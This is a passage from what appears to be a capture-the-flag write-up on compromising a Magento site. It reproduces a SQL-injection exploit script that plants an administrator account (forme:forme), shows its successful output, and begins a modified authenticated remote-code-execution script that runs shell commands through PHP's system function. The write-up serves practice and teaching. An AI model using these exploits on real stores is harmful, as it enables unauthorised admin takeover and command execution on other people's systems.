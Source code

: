     
    query = q.replace("\n", "").format(username="forme", password="forme")
    pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
    
    # e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
    r = requests.post(target_url,
                      data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                            "filter": base64.b64encode(pfilter),
                            "forwarded": 1})
    if r.ok:
        print "WORKED"
        print "Check {0}/admin with creds forme:forme".format(target)
    else:
    print "DID NOT WORK"

    python2 xml/webapps/37977.py
    WORKED
    Check http://10.10.10.140/index.php/admin with creds forme:forme

and in second with this credential we can use that `php/webapps/37811.py` but whit a simple modify

    #!/usr/share/bin python2
    
    from hashlib import md5
    import sys
    import re
    import base64
    import mechanize
    
    
    def usage():
        print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
        sys.exit()
    
    
    if len(sys.argv) != 3:
        usage()
    
    # Command-line args
    target = sys.argv[1]
    arg = sys.argv[2]
    
    # Config.
    username = 'forme'
    password = 'forme'
    php_function = 'system'  # Note: we can only pass 1 argument to the function
    install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
    